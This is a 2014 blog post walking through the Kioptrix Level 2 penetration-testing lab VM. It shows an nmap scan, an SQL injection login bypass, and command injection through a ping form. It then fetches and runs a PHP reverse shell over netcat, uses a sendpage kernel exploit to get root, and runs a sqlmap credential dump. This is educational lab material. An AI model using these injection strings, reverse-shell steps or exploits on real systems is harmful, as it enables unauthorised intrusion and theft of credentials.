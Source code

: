 ```yaml
---
layout: post
title: "Pentest lab - Kioptrix Level 2"
date: 2014-06-16 22:47:31 +0300
comments: true
categories: [kioptrix, penetration testing, hacking, security]
keywords: kioptrix, penetration testing, hacking, security
description: Penetration testing Kioptrix Level 2
---
```


Today I will walk through exploiting level 2 in the Kioptrix series.

<!-- more -->

Again, I first did a ping sweep with Nmap and determined the IP of the target is 192.168.127.162

Next, the port scan:

``` plain
nmap -A -p1-65535 192.168.127.162

Starting Nmap 6.46 ( http://nmap.org ) at 2014-06-16 22:52 EEST
Nmap scan report for 192.168.127.162
Host is up (0.00036s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            630/udp  status
|_  100024  1            633/tcp  status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-07T23:10:47+00:00
|_Not valid after:  2010-10-07T23:10:47+00:00
|_ssl-date: 2014-06-16T16:42:47+00:00; -3h09m46s from local time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_CBC_128_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_CBC_128_CBC_WITH_MD5
|_    SSL2_RC4_128_EXPORT40_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: Potentially risky methods: PUT
|_See http://nmap.org/nsedoc/scripts/http-methods.html
|_http-title: 403 Forbidden
633/tcp  open  status   1 (RPC #100024)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            630/udp  status
|_  100024  1            633/tcp  status
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:20:9D:3E (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
```

### From web to shell

Pointing the browser to the target, we can see this remote admin login panel:

{% img center /images/login.png 'admin login' 'login' %}

Immediately thinking SQL injection, I did a quick scan with Owasp Zap and indeed, the login can be bypassed using an injection like the following:

<code>' or '1' = '1' -- </code>

Now we can see an interface where we can ping hosts, which might mean remote code execution:

{% img center /images/ping.png 'ping ip' 'ping' %}

After testing the ping functionality, I ran a quick *uname -a* to confirm that remote code execution is possible:

``` plain
; uname -a

Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 athlon i386 GNU/Linux
```

The semicolon is used to run multiple commands, so in this case I am closing the ping command and inputting another one after it. I tried poking around, checking if I can read /etc/shadow (which I can't, only /etc/passwd). The commands are ran by the **apache** user. So I'm thinking, it's time for some PHP backdoor fun! I found some on Kali in <code>/usr/share/webshells/php</code>

First, I'm going to copy the reverse PHP shell to my home directory and rename it:

``` plain
cp php-reverse-shell.php ~/shell.php
```

Let's see the description:

> This script will make an outbound TCP connection to a hardcoded IP and port.
> The recipient will be given a shell running as the current user (apache normally).

Next I looked at the Php code, and I need to change the IP and port. The IP is the address of the attacker machine, and for the port I just threw 80 in there, since an outbound connection to port 80 is guaranteed to be allowed (if there was a firewall in place).

With that done, the next step is to serve the shell on my machine and use the web interface to download it to the target host.

On my machine:

``` plain
nc -v -l -p 80 < shell.php
```

On the web interface:

``` plain
; wget 192.168.127.159:80 -O /tmp/puppies.php 

; ls /tmp

puppies.php
```

Now listen on my machine for the incoming connection:

``` plain
nc -v -l -p 80 
```

And on the web interface, execute the shell:

``` plain
; php /tmp/puppies.php
```

And we have a shell!

``` plain
nc: connect to 192.168.127.159 80 from 192.168.127.162 (192.168.127.162) 32772 [32772]
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 athlon i386 GNU/Linux
 13:15:37 up  2:21,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
```

It's time for privilege escalation! I will use the sendpage exploit:

``` plain
cp /usr/share/exploitdb/platforms/linux/local/9545.c ~/sendpage.c
nc -vv -l -p 5555 < sendpage.c
```

And from the shell:

``` plain
sh-3.00# wget 192.168.127.159 -O /tmp/sendpage.c
sh-3.00# cd /tmp
sh-3.00# gcc -o sendpage sendpage.c
sh-3.00# chmod a+x sendpage
sh-3.00# ./sendpage
sh: no job control in this shell
sh-3.00# whoami
root
```

### Breaking into the database

I will now explore a different attack vector, by using **sqlmap** to dump the juicy stuff of the database. 

``` plain
sqlmap -u "http://192.168.127.162/index.php" --dbms=MySQL --dump --data "uname=test&psw=pass" --level=5 --risk=3
Database: webapp
Table: users
[2 entries]
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
| 1  | admin    | 5afac8d85f |
| 2  | john     | 66lajGGbla |
+----+----------+------------+
```

I couldn't connect to the MySQL database though, so didn't find a use for these credentials.

I also tried an exploit against the CUPS daemon, to no avail. So I guess this is it for level 2.

> You have an unusual magnetic personality.  Don't walk too close to
> metal objects which are not fastened down.



